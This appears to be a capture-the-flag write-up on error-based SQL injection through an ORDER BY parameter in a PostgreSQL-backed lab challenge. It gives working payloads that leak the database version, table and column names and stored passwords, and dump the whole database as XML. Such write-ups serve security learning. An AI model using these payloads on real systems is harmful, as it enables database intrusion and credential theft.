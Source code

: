 Vulnerable enpoint: `GET /web-serveur/ch34/?action=contents&order=`

First, I need to find a way to escape the query. Imagine the query like this:
```
SELECT * FROM contents ORDER BY page ASC;
```
To escapse I could add a `,` before my payload. And with the description I tried every databases error payload and success to find that it was PostgreSQL
```
,CAST(chr(126)||VERSION()||chr(126)+AS+NUMERIC)
```
The above payload return `ERROR:  invalid input syntax for type numeric: "~PostgreSQL 9.5.25 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit~"`

To find table name, I use this payload:
```
,CAST(chr(126)||(SELECT+table_name+FROM+information_schema.tables+LIMIT+1+offset+0)||chr(126)+AS+NUMERIC)--
```

Changing the data_offset give me some tables:`m3mbr35t4bl3`, `contents`,... Then I could use the following payload to get the collumns name
```
,CAST(chr(126)||(SELECT+column_name+FROM+information_schema.columns+LIMIT+1+OFFSET+1)||chr(126)+AS+NUMERIC)--
```
I dumped some collums: `us3rn4m3_c0l`, `p455w0rd_c0l`, `em41l_c0l`,...

To get the content of the table, I used this payload
```
CAST(chr(126)||(SELECT p455w0rd_c0l FROM m3mbr35t4bl3 LIMIT 1 offset 0)||chr(126) AS NUMERIC)
```
Returned error is the result for this challenge

Another payload
```
, (SELECT CAST(CHR(32)||(SELECT database_to_xml(TRUE,TRUE,'')) AS NUMERIC)) ASC
```